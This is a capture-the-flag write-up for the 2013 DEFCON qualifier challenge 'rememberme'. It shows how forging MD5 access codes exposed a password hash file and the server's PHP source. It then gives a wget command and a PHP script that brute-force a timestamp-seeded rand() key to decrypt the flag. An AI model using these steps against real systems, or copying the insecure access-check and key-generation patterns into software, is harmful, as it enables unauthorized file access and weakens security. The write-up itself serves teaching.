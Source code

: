 ```yaml
---
title: rememberme - DEFCON CTF quals 2013
author: sebbe
layout: post
published: true
date: 2013-06-19 12:51:59
---
```


Challenge description:
> http://rememberme.shallweplayaga.me/

The challenge starts you out with links to two files `usernames.txt` and `passwords.txt`, as well as a link to a login page.

![front page](/public/img/rememberme-front.png )

The link to `usernames.txt` gave a list of some Star Trek characters

    jeanluc
    riker
    spock
    tiberius
    bones
    crusher
    deana

While the link to `passwords.txt` gave access denied.

A brief look at the URLs,

    http://rememberme.shallweplayaga.me/getfile.php?filename=usernames.txt&accesscode=60635c6862d44e8ac17dc5e144c66539
    http://rememberme.shallweplayaga.me/getfile.php?filename=passwords.txt&accesscode=60635c6862d44e8ac17dc5e144c66539

revealed what we presumed to be a MD5 hash. Guessing it was a hash of the filename, we tried

    http://rememberme.shallweplayaga.me/getfile.php?filename=passwords.txt&accesscode=b55dcb609a2ee6ea10518b5fd88c610e

which gave us the following password hashes:

    jeanluc:$6$J/J$zezZMHwc4axqYJZk5nUHD8uwCtz7uU4EjcgVHrJsN2tW2BiMGwTPrC2sI1KD4B3O82o/nShpY0LtctLIihl5.0:15868:0:99999:7:::
    riker:$6$CkoJSeZPJNPtRxZo$O5NBiK5LPXXBszv5cUf4wS4tkKCHtcBM4Q8JuzzXyz38mKQpPGrcwNST1PmjCkqGDT1wVnqCSpBWhRGFmMKRq0:15868:0:99999:7:::
    spock:$6$h7AXU$ulWYM7BGY62mA/x4RjDAJzoTEQhZnMiU..OJwz/n.NbvGMT5FuDuiY3MrkWPrj6HWDuMYIPdTa/js2UO9EC6R.:15868:0:99999:7:::
    tiberius:$6$g8fas1AItAy85OvS$Tfhxf6HRO0ZHC7.ekPnLssf67TM2ELpus0gCHEVQVQnoix.mnRd30EdYuF7gpoRnWfKFq.zk8pXeJk2Ug7POk0:15868:0:99999:7:::
    bones:$6$t5TXeD0jYTRe.DCT$tW/qq5qxN79Isce6clU7FtNYEkzSOnFa4TqSbU4/VsPTz.uSlb.e3dvNrVUGXJCBLl51FxxCct3iJTnqC3aeq1:15868:0:99999:7:::
    crusher:$6$1cNogvGgHLd9m2xP$OTV9Mtl1PmnLlZIi/iXFzBYyEBW4xLzYYTYT41FZRq45iWSsb6lJu0Vtw5WyOWSNI1NR1CECInqErn341vZOy/:15868:0:99999:7:::
    deana:$6$hn4gRZq3b6PEfVmN$YckwH8..bO5awtPUX7J8994GT62S8075HWdtyRnBBYh4.AMOG6VIWng1IWYMZPAFDmDJcgOmMe5E9ZwEpGHpb0:15868:0:99999:7:::

These proved to be useless, however, since

    http://rememberme.shallweplayaga.me/getfile.php?filename=login.php&accesscode=73dce75d92181ca956e737b3cb66db98

revealed the login page to be a troll:

```php
<html>
<title>Remember Me</title>
<?php
if ($_SERVER['REQUEST_METHOD'] == "POST") {
    echo "<font color='red'> ACCESS DENIED!</font>";
}
?>
<body><form id='login' action='login.php' method='post' accept-charset='UTF-8'>
<fieldset >
<legend>Login</legend>
<label for='username' >UserName:</label>
<input type='text' name='username' id='username'  maxlength="50" /><br>

<label for='password' >Password:</label>
<input type='password' name='password' id='password' maxlength="50" /><br>

<input type='submit' name='Submit' value='Submit' />

</fieldset>
</form>
</body>
</html>
```

Taking a look at `getfile.php` through itself revealed the following:

```php
<?php
$value = time();
$filename = $_GET["filename"];
$accesscode = $_GET["accesscode"];
if (md5($filename) == $accesscode){
    echo "Acces granted to $filename!<br><br>";
    srand($value);
    if (in_array($filename, array('getfile.php', 'index.html', 'key.txt', 'login.php', 'passwords.txt', 'usernames.txt'))==TRUE){
        $data = file_get_contents($filename);
        if ($data !== FALSE) {
            if ($filename == "key.txt") {
                $key = rand();
                $cyphertext = mcrypt_encrypt(MCRYPT_RIJNDAEL_128, $key, $data, MCRYPT_MODE_CBC);
                echo  base64_encode($cyphertext);
            }
            else{
                echo nl2br($data);
            }

        }
        else{
            echo "File does not exist";
        }
    }
    else{
        echo "File does not exist";
    }

}
else{
    echo "Invalid access code";
}
?>
</body>
</html>
```

Here we see, that the key must be stored in `key.txt`, and that it is encrypted with a random number, seeded based on the timestamp.

We then downloaded the key, as well as the approximate local timestamp, using the following command:

    wget -O cryptotext 'http://rememberme.shallweplayaga.me/getfile.php?filename=key.txt&accesscode=65c2a527098e1f7747eec58e1925b453' && date +%s > date

Guessing that the timestamp would probably be within +- 10 seconds of the server's timestamp, we used the following script to try all the options:

```php
<?php
$b64val = 'N9dlf5yJ2XAhLn1yCnD6f7Vi8LkBRPCmWGef5i/2UqiBDT1rZGaCKAVWqdhiv++qbudQRNew77YdJ19DFwREtA==';
$timestamp = 1371316621;

$cryptotext = base64_decode($b64val);

for ($i = -10; $i <= 10; $i++) {
    srand($timestamp+$i);
    echo mcrypt_decrypt(MCRYPT_RIJNDAEL_128, rand(), $cryptotext, MCRYPT_MODE_CBC);
    echo "\n";
}
```

Which yielded a bunch of garbage lines, as well as the desired key.

The key is: To boldly go where no one has gone before WMx8reNS
